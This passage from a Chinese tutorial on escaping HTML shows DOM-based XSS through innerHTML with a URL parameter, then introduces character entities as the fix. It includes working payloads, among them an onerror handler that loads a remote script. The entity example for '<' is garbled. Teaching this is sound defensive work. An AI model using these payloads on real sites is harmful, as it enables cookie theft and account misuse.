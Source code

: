 你把地址改成 `www.example.com/user.html?name=<img src=@ onerror=alert(1)>` 的话，就相当于：

```
document.getElementById("d1").innerHTML="<img src=@ onerror=alert(1)>"
```

此时立刻就弹窗了 1。

也许你会想，不就是弹窗个 1 吗？还能怎么样？能写多少代码？

那我把地址改成 `www.example.com/user.html?name=<img src=@ onerror='var s=document.createElement("script");s.src="https://mqyqingfeng.github.io/demo/js/alert.js";document.body.appendChild(s);' />` 呢？

就相当于：

```
document.getElementById("username").innerHTML = "<img src=@ onerror='var s=document.createElement(\"script\");s.src=\"https://mqyqingfeng.github.io/demo/js/alert.js\";document.body.appendChild(s);' />";
```

整理下其中 onerror 的代码：

```
var s = document.createElement("script");
s.src = "https://mqyqingfeng.github.io/demo/js/alert.js";
document.body.appendChild(s);
```

代码中引入了一个第三方的脚本，这样做的事情就多了，从取你的 cookie，发送到黑客自己的服务器，到监听你的输入，到发起 CSRF 攻击，直接以你的身份调用网站的各种接口……

总之，很危险。

为了防止这种情况的发生，我们可以将网址上的值取到后，进行一个特殊处理，再赋值给 DOM 的 innerHTML。

## 字符实体

问题是怎么进行转义呢？而这就要谈到字符实体的概念了。

在 HTML 中，某些字符是预留的。比如说在 HTML 中不能使用小于号（<）和大于号（>），因为浏览器会误认为它们是标签。

如果希望正确地显示预留字符，我们必须在 HTML 源代码中使用字符实体（character entities）。

字符实体有两种形式：

1. `&entity_name;`
2. `&#entity_number;`。

比如说我们要显示小于号，我们可以这样写：`<` 或 `&#60`;

值得一提的是，使用实体名而不是数字的好处是，名称易于记忆。不过坏处是，浏览器也许并不支持所有实体名称（但是对实体数字的支持却很好）。

也许你会好奇，为什么 `<` 的字符实体是 `&#60` 呢？这是怎么进行计算的呢？

其实很简单，就是取字符的 unicode 值，以 `&#` 开头接十进制数字 或者以 `&#x`开头接十六进制数字。举个例子：

```
var num = '<'.charCodeAt(0); // 60
num.toString(10) // '60'
num.toString(16) // '3c'
```
